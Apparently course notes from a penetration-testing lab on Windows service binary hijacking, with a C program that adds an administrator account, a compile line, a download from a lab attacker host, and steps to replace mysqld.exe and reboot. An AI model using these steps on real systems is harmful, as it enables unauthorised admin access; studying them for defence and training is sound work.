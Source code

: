 # Service Binary Hijacking

Each Windows service has an associated binary file. These binary
files are executed when the service is started or transitioned into a
running state.

For this section, let's consider a scenario in which a software
developer creates a program and installs an application as a Windows
service. During the installation, the developer does not secure the
permissions of the program, allowing full Read and Write access to
all members of the Users group. As a result, a lower-privileged
user could replace the program with a malicious one. To execute the
replaced binary, the user can restart the service or, in case the
service is configured to start automatically, reboot the machine. Once
the service is restarted, the malicious binary will be executed with
the privileges of the service, such as *LocalSystem*.

**Get information about running binary**

```
PS C:\Users\dave> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

```

**checking permission of the binaries**

```
PS C:\Users\dave> icacls "C:\xampp\apache\bin\httpd.exe"
C:\xampp\apache\bin\httpd.exe BUILTIN\Administrators:(F)
                              NT AUTHORITY\SYSTEM:(F)
                              BUILTIN\Users:(RX)
                              NT AUTHORITY\Authenticated Users:(RX)
```

*To exploit a binary we need the permission mentioned below:*

`BUILTIN\Users:(F)`

Let's create a small binary on Kali, which we'll use to replace the
original **mysqld.exe**. The following C code will create a user named
*dave2* and add that user to the local Administrators group using
the *system*[5](https://portal.offsec.com/courses/pen-200-44065/learning/windows-privilege-escalation-45276/leveraging-windows-services-47210/service-binary-hijacking-45284#fn-local_id_1782-5) function. The cross-compiled version of this
code will serve as our malicious binary. Let's save it on Kali in a
file named **adduser.c**.

```
#include <stdlib.h>

int main ()
{
  int i;

  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");

  return 0;
}

```

**Compiling the exploit**

x86_64-w64-mingw32-gcc adduser.c -o adduser.exe

**Transfer exploit to system**

```
PS C:\Users\dave> iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe

PS C:\Users\dave> move C:\xampp\mysql\bin\mysqld.exe mysqld.exe

PS C:\Users\dave> move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
```

**stop running binary**

```
PS C:\Users\dave> net stop mysql
System error 5 has occurred.

Access is denied.
```

If we do not have necessary permissions, we can check if the service restarts with a reboot.

```
PS C:\Users\dave> Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}

Name  StartMode
----  ---------
mysql Auto
```

**Shutdown machine**

shutdown /r /t 0